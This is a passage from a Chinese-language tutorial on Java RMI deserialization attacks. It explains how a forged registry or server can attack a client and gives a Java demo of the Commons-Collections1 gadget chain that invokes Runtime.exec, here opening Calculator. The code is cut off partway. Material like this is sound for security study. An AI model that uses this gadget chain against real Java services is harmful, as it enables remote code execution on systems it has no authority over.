 上述的每个方法中, 除了`unbind`和`rebind`, 其他的都会返回数据给客户端, 此时的数据是序列化的数据, 所以客户端自然也会反序列化, 那么只需要伪造注册中心的返回数据, 就可以达到攻击客户端的效果.

该攻击方式可以利用`ysoserial`的`JRMPListener`攻击模块

####  3.2.2. <a name='-1'></a>服务端攻击客户端
在`RMI`中, 远程调用方法传递回来的不一定是一个基础数据类型(String、int), 也有可能是对象. 当服务端返回给客户端一个对象时, 客户端就要对应的进行反序列化. 所以我们需要伪造一个服务端, 当客户端调用某个远程方法时, 返回的参数是我们构造好的恶意对象.

`Demo`代码. 

```java
package org.h3rmesk1t.rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;


/**
 * @Author: H3rmesk1t
 * @Data: 2022/1/30 1:42 上午
 */
public class RMIClientAttackDemo3 {
    public static void main(String[] args) throws Exception {

        // 获取远程对象实例
        Registry registry = LocateRegistry.getRegistry("localhost", 4321);

        RemoteInterface stub = (RemoteInterface) registry.lookup("demoCaseBegin");
        System.out.println(stub.demoCaseBegin(openCalculatorObject()));
    }

    public static Object openCalculatorObject() throws Exception {
        // Commons-Collection1链
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);

```